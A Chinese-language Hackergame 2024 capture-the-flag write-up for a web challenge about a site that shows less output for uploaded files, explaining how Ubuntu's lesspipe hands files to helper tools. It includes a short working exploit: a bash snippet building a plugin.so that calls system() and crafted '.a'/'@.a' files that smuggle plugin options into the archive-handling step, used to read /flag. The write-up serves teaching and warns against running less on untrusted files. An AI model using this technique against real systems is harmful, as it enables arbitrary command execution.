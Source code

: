 # LESS 文件查看器在线版

题解作者：[zzh1996](https://github.com/zzh1996)

出题人、验题人、文案设计等：见 [Hackergame 2024 幕后工作人员](../../credits.pdf)。

## 题目描述

- 题目分类：web

- 题目分值：250

> 以下内容包含 AI 辅助创作

「等等，你说 less 是个指令？我还以为它就是‘更少’的意思呢！」小 W 一脸困惑地看着 Linux 用户协会的招新海报。

「对啊，less 是个很方便的工具，可以查看文件内容，显示行号，还能搜索……」Linux 用户协会会长耐心地解释道。

「可是……」小 W 欲言又止，「我电脑上还没装 Linux……」

「别担心！」一个正在摆弄笔记本的同学突然抬起头，「我写了个网站，上传文件就能看到 less 的输出结果。这下大家都能体验 Linux 的美妙了！」

「哇，太棒了！」小 W 开心地说，「这下总算不用被嫌弃了……」

然而会长却若有所思地看着那个热心的同学：「你确定这样……安全吗？」

「安全？」小 W 一头雾水，「不就是看个文件内容嘛，能出什么问题？」

> AI 辅助创作部分结束

**[下载题目源代码](files/LESS.zip)**

[打开/下载题目](http://202.38.93.141:10060/?token={token})

## 出题思路

某一天我看到某同学说 less 命令还可以用来看 PDF，而我只用过 less 阅读纯文本文件。我就研究了一下 less 是怎么做到的，它竟然可以查看各种各样的文件。我发现 less 是用 lesspipe 来处理各种类型的文件，lesspipe 就是一个脚本，根据不同的文件类型决定如何把对应的文件转换为文本，然后管道给 less，其中处理 PDF 格式使用的是 pdftotext 命令。

更有趣的是，我发现 Ubuntu 的 bashrc 中会默认启用 lesspipe（而 Debian 等发行版没有）。我就在想，我们很多人会使用 less 来查看并不信任的文件，比如从网上随便下载的文件或者刚解压出来的文件。如果 lesspipe 可以支持这么多种格式的文件，那这里有很大的攻击面啊。只要有一种文件格式的处理是不安全的，那用 less 随便查看文件就有安全隐患。很多文件格式设计的时候是考虑了打开任意文件的安全性的，但是也有文件格式设计的时候可能会故意允许包含其他文件，或者打开的时候自动执行一些命令，或者读取当前目录的配置文件之类的。

于是我立马上网搜了一下有没有人研究过这个问题，使用「lesspipe RCE」之类的关键词，很容易搜索到一些相关的讨论。

比如说，很容易找到 [这个讨论](https://seclists.org/fulldisclosure/2014/Nov/74)。阅读这个邮件列表的讨论中的各种回复之后，我发现 [这里](https://seclists.org/oss-sec/2014/q4/1027) 提供了一个方案，我自己在最新版的 Ubuntu 上面复现一下，发现就能做到任意命令执行。

为了让大家知道，在 lesspipe 开启的情况下，不应该随便去 less 不信任的文件，所以我把它出成了这道题。

这道题的解题人数并不多。很多人疑惑为什么这题分值并不高，就是因为这道题可以通过搜索来解决，并不需要自己实现漏洞的复杂利用。

当然，我相信这道题不止有一种解法，因为上面这个帖子也有别人找到了其他程序的缺陷。完全有可能只需要一个文件，甚至不需要控制文件名，就可以 getshell。

## 题解

根据上面提到的讨论里面的内容，在跟题目附件提供的 Dockerfile 相同的环境下，执行以下命令：

```bash
printf '#include <stdlib.h>\nvoid onload(void *v) { system("ls / -alh"); }' | \
  gcc -fPIC -shared -o plugin.so -xc -
ar rc ./@.a /dev/null
echo '-s --plugin ./plugin.so ./@.a' > .a
```

然后把生成的 `plugin.so`、`.a`、`@.a` 三个文件上传即可在服务器上执行列目录的命令。这里要注意，上传时选择的文件的顺序很重要，一定要保证 `@.a` 是最后一个。在我的 macOS 的 Chrome 浏览器上面，按照文件大小排序就能保证上传的顺序，其他操作系统我没测试，但是总是可以通过 curl 之类的命令或者写脚本来保证上传顺序。

最后把上面的命令替换成 `cat /flag`，重新上传一次，就可以得到 flag。

## 一些吐槽

1. 这题本来想用今年 Hackergame 新搞的 web 题框架，给每个选手开单独的容器并且允许多次上传文件的，但是没时间搞了，只能用比较扭曲的网站后端 nc 题目容器这种方式。不过也不太影响解题。
2. 如果想让 less 用上 Ubuntu 默认的 `.bashrc`，而不是刻意去加载，就只能搞一个 TTY 来模拟交互了，并且因此要考虑很多额外问题，比如怎么安全传递文件名。
3. 为了让题目环境有 `ar` 而且不去刻意安装，我尝试了半天，发现安装 `python3-pip` 就会自动安装上，看起来就很不刻意。
4. 大家记得不要在开了 lesspipe 的情况下 less 不信任的文件。

